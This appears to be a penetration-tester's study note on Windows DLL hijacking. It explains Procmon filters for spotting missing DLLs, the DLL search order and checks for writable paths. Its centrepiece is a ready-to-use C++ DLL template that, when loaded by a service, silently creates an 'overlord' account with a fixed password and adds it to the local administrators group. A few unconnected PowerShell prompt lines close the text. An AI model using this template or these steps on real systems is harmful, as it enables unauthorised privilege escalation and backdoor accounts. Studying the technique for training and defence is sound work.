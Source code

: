 For specific executable.
We enter the following arguments: Process Name as Column, is as Relation, BetaServ.exe as Value, and Include as Action. Once entered, we'll click on Add.

Blanket searching for missing DLLs.
We enter the following arguments: [ Result - Contains - not found - then Include ] & [ Path - ends with - .dll - then Include ] & just show the [] File System Activity ]. THIS MAY TAKE SOME MINUTES.

After applying the filter, the list is empty. In order to analyze the service binary, we should try restarting the service as the binary will then attempt to load the DLLs.

```bash
Restart-Service BetaService
```

Look for the Detail column to state NAME NOT FOUND for these calls, which means that a DLL with this name couldn't be found in any of these paths. You can see that the order in which the DLL is being called. There are going to be a shit ton of calls in Procmon.. take your time and check everything.

#### Dll Search Order 

1. The directory from which the application loaded.
2. The system directory.
3. The 16-bit system directory.
4. The Windows directory. 
5. The current directory.
6. The directories that are listed in the PATH environment variable.

You can verify with typing the command *$env:path* in Powershell.

See if you have the ability to write to any of the directories that the DLL is being called from.

If you do, this code can be used as a template for a DLL; note that in the case below we know that the DLL is trying to be loaded.. it's safer to spam all of the cases if you don't know what is going on.

```cpp
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user overlord Password123! /add");
  	    i = system ("net localgroup administrators overlord /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```


[CLIENTWK220]: PS C:\Users\daveadmin\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname